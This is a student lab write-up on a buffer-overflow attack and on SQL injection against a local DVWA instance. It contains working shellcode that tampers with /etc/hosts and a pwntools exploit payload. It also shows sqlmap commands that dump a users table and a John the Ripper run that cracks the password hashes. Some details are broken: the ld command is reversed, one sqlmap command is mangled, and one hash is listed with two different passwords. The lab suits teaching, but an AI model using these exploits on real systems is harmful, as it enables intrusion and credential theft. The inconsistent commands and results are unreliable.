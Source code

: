 ![image](https://github.com/user-attachments/assets/4bcbe88a-4d8a-486b-81d3-753c899bbf69)# Lab #1
## Task 1: Software buffer overflow attack

### 1. Compile asm program and C program to executable code:
*Note: Both files are to be put in the same folder*

***Compile vuln.c:***

```c
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
*The function strcpy(buffer, argv[1]) copies data into the buffer without checking for overflow, making it vulnerable.*

To compile the vulnerable C program without security mechanisms, run:

```sh
gcc -g -m32 vuln.c -o vuln.out -fno-stack-protector -z execstack 
```

Here, -fno-stack-protector disables stack protection, and -z execstack
allows execution on the stack (where the shell code will be placed).

***Compile sh.asm:***

```asm
global _start

section .text

_start:
    xor ecx, ecx
    mul ecx
    mov al, 0x5     
    push ecx
    push 0x7374736f     ;/etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp
    mov cx, 0x401       ;permmisions
    int 0x80            ;syscall to open file

    xchg eax, ebx
    push 0x4
    pop eax
    jmp short _load_data    ;jmp-call-pop technique to load the map

_write:
    pop ecx
    push 20             ;length of the string, dont forget to modify if changes the map
    pop edx
    int 0x80            ;syscall to write in the file

    push 0x6
    pop eax
    int 0x80            ;syscall to close the file

    push 0x1
    pop eax
    int 0x80            ;syscall to exit

_load_data:
    call _write
    google db "127.1.1.1 google.com"

```

Then, compile it using nasm and ld:

```sh
nasm -f elf sh.asm -o sh.o
ld -m elf_i386 sh -o sh.o
```

This will generate an object file from the assembly file.

### 2. Trigger the buffer overflow
"Conduct the attack so that when C executable code runs, shellcode will be triggered and a new entry is added to the /etc/hosts file on your linux."

#### Step 1: Extract shellcode from the binary
*We use objdump to extract the byte sequence for the attack:*

```sh
objdump -d sh | grep '[0-9a-f]:' | grep -v 'file' | cut -f2 -d: | cut -f1-6 -d' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//' | sed 's/ /\\x/g' | paste -d '' -s
```

*Which gives this after cleaning:*

```\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x6f\x73\x74\x73\x68\x2f\x2f\x2f\x68\x68\x2f\x65\x74\x63\x89\xe3\x66\xb9\x01\x04\xcd\x80\x93\x6a\x04\x58\xeb\x10\x59\x6a\x14\x5a\xcd\x80\x6a\x06\x58\xcd\x80\x6a\x01\x58\xcd\x80\xe8\xeb\xff\xff\xff\x31\x32\x37\x2e\x31\x2e\x31\x2e\x31\x20\x67\x6f\x6f\x67\x6c\x65\x2e\x63\x6f\x6d```

#### Step 2: Identify the offset
*(Where the buffer overflows into the return address)*

```sh
gdb -q vuln.out
gdb-peda$ run $(python -c 'print "A"*20')
```

![image](https://raw.githubusercontent.com/ByrnorOCount/Subs/refs/heads/main/1.png)

Here, we can see `0xffffd740 ('A' <repeats 20 times>)` on the stack. The buffer is stored here, which is likely to be where the shell code is placed after the overflow. 

### 3: Construct the payload and conduct the attack
#### Step 1: Construct the payload

```py
from pwn import *

payload = b"A" * 20  # Fill the buffer and EBP to go straight to the return address
payload += b"\x40\xd7\xff\xff"  # Overwrite EIP, address where execution will jump to after overflow
payload += b"\x90" * 200  # NOP sled in case return address is off
payload += b"\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x6f\x73\x74\x73\x68\x2f\x2f\x2f\x68\x68\x2f\x65\x74\x63\x89\xe3\x66\xb9\x01\x04\xcd\x80\x93\x6a\x04\x58\xeb\x10\x59\x6a\x14\x5a\xcd\x80\x6a\x06\x58\xcd\x80\x6a\x01\x58\xcd\x80\xe8\xeb\xff\xff\xff\x31\x32\x37\x2e\x31\x2e\x31\x2e\x31\x20\x67\x6f\x6f\x67\x6c\x65\x2e\x63\x6f\x6d"  # Shell code

with open("payload.txt", "wb") as f:
    f.write(payload)
```

#### Step 2: Run and verify attack

##### 1. Run the program (with root permission)
```sh
sudo ./vuln.out "$(cat payload.txt)"
```

![image](https://raw.githubusercontent.com/ByrnorOCount/Subs/refs/heads/main/2.png)

##### 2. Verify the changes
```sh
cat /etc/hosts
```

![image](https://raw.githubusercontent.com/ByrnorOCount/Subs/refs/heads/main/3.png)

## Task 2: Attack on the database of Vulnerable App from SQLi lab

### 1. Use sqlmap to get information about all available databases

#### Step 1: Start docker and set up sqlmap

```sh
# Ensure Docker is running before running the commands
docker pull vulnerables/web-dvwa
docker run -d -p 80:80 vulnerables/web-dvwa
```

We then open http://localhost to access the DVWA site

Next, we can install sqlmap here: https://github.com/sqlmapproject/sqlmap?tab=readme-ov-file#installation. I downloaded the latest zipball.

#### Step 2: Identify vulnerable point and run sqlmap

We log in using the default username `admin` and password `password`. Then, we go to the SQL Injection page `http://localhost/vulnerabilities/sqli/`, where we input `1` and press submit, which gives the vulnerable url `http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit`. 
Next, we check the cookies of the site. I used a cookie editor for this:
![image](https://raw.githubusercontent.com/ByrnorOCount/Subs/refs/heads/main/4.png)

With the cookies `security=low` and `PHPSESSID=sqk0l27imcclp1u9d13s1sc444`, we will use sqlmap to exploit this vulnerability. In my case, I opened a command prompt in the sqlmap folder and ran:
```sh
python sqlmap.py sqlmapproject-sqlmap-1.8.9-1-g9e36fd7\sqlmapproject-sqlmap-9e36fd7>python sqlmap.py sqlmap -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=sqk0l27imcclp1u9d13s1sc444" --dbs`
```
![image](https://raw.githubusercontent.com/ByrnorOCount/Subs/refs/heads/main/5.png)
![image](https://raw.githubusercontent.com/ByrnorOCount/Subs/refs/heads/main/6.png)

Here, we can see that the available databases are `dvwa` and `information_schema`.

### 2. Use sqlmap to get tables, users information

#### Step 1: Extract tables

```sh
python sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=sqk0l27imcclp1u9d13s1sc444" -D dvwa --tables
```
![image](https://raw.githubusercontent.com/ByrnorOCount/Subs/refs/heads/main/7.png)

We can see that there are two tables, `guestbook` and `users`

#### Step 2: Extract users information

```sh
python sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=sqk0l27imcclp1u9d13s1sc444" -D dvwa -T users --dump
```
![image](https://raw.githubusercontent.com/ByrnorOCount/Subs/refs/heads/main/8.png)
```sql
+---------+---------+-----------------------------+----------------------------------+-----------+------------+---------------------+--------------+
| user_id | user    | avatar                      | password                         | last_name | first_name | last_login          | failed_login |
+---------+---------+-----------------------------+----------------------------------+-----------+------------+---------------------+--------------+
| 1       | admin   | /hackable/users/admin.jpg   | 5f4dcc3b5aa765d61d8327deb882cf99 | admin     | admin      | 2024-10-22 14:34:09 | 0            |
| 2       | gordonb | /hackable/users/gordonb.jpg | e99a18c428cb38d5f260853678922e03 | Brown     | Gordon     | 2024-10-22 14:34:09 | 0            |
| 3       | 1337    | /hackable/users/1337.jpg    | 8d3533d75ae2c3966d7e0d4fcc69216b | Me        | Hack       | 2024-10-22 14:34:09 | 0            |
| 4       | pablo   | /hackable/users/pablo.jpg   | 0d107d09f5bbe40cade3de5c71e9e9b7 | Picasso   | Pablo      | 2024-10-22 14:34:09 | 0            |
| 5       | smithy  | /hackable/users/smithy.jpg  | 5f4dcc3b5aa765d61d8327deb882cf99 | Smith     | Bob        | 2024-10-22 14:34:09 | 0            |
+---------+---------+-----------------------------+----------------------------------+-----------+------------+---------------------+--------------+
```
The password hashes seem to be in an MD5 format.

### 3. Make use of John the Ripper to disclose the password of all database users from the above exploit

First, we can install John The Ripper from the site https://www.openwall.com/john/. I downloaded this specific version: https://www.openwall.com/john/k/john-1.9.0-jumbo-1-win64.7z.
Next, we'll compile all of the hashed passwords we extracted in the previous section into a hashedpw.txt file and run John The Ripper on it. 
```sh
john --format=raw-md5 hashedpw.txt
```
![image](https://raw.githubusercontent.com/ByrnorOCount/Subs/refs/heads/main/9.png)
And we've obtained the raw passwords:
```
5f4dcc3b5aa765d61d8327deb882cf99 = password
e99a18c428cb38d5f260853678922e03 = password
8d3533d75ae2c3966d7e0d4fcc69216b = abc123
0d107d09f5bbe40cade3de5c71e9e9b7 = letmein
5f4dcc3b5aa765d61d8327deb882cf99 = charley
```

